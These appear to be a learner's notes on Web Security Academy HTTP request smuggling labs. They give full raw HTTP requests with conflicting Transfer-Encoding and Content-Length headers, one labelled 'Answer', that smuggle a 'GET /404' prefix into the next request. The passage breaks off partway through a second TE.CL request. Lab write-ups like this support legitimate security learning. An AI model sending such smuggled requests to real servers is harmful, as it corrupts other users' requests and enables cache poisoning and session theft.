 - TE:CL timing attack should fail

<img width="516" alt="image" src="https://user-images.githubusercontent.com/56427824/195548230-a3364f8f-9548-496f-b9b4-d16693d9fe1a.png">

- ```
  GET /404 HTTP/1.1
  Foo: x
  ```
  
    1. This segment of the request is pre=peneded to the NEXT request the server receives

- Answer

  ```
  POST / HTTP/1.1
  Host: 0a6700fe03cbc79ec068303c00bf0039.web-security-academy.net
  Cookie: session=xVphi9K1cd1EaPsHzoH9zfFbmztwWa8u
  Transfer-Encoding: chunked
  Content-Length: 49
  Cache-Control: max-age=0
  Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
  Sec-Ch-Ua-Mobile: ?0
  Sec-Ch-Ua-Platform: "Windows"
  Upgrade-Insecure-Requests: 1
  Origin: https://0a6700fe03cbc79ec068303c00bf0039.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
  Sec-Fetch-Site: same-origin
  Sec-Fetch-Mode: navigate
  Sec-Fetch-User: ?1
  Sec-Fetch-Dest: document
  Referer: https://0a6700fe03cbc79ec068303c00bf0039.web-security-academy.net/post?postId=9
  Accept-Encoding: gzip, deflate
  Accept-Language: en-US,en;q=0.9
  Connection: close

  e
  q=smuggling&x=
  0

  GET /404 HTTP/1.1
  Foo: x
  ```

### HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

<img width="597" alt="image" src="https://user-images.githubusercontent.com/56427824/195559100-fff58d2e-bd94-4620-8a8e-5049db6455e4.png">

```
POST / HTTP/1.1
Host: 0ae1004004f6309bc0cf1cb100b50096.web-security-academy.net
Cookie: session=80YpPSfgNZ76O5dC5bZWIWcE2PCpDkKf
Content-Length: 4
Transfer-Encoding: chunked
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0ae1004004f6309bc0cf1cb100b50096.web-security-academy.net
Content-Type: application/x-www-form-urlencoded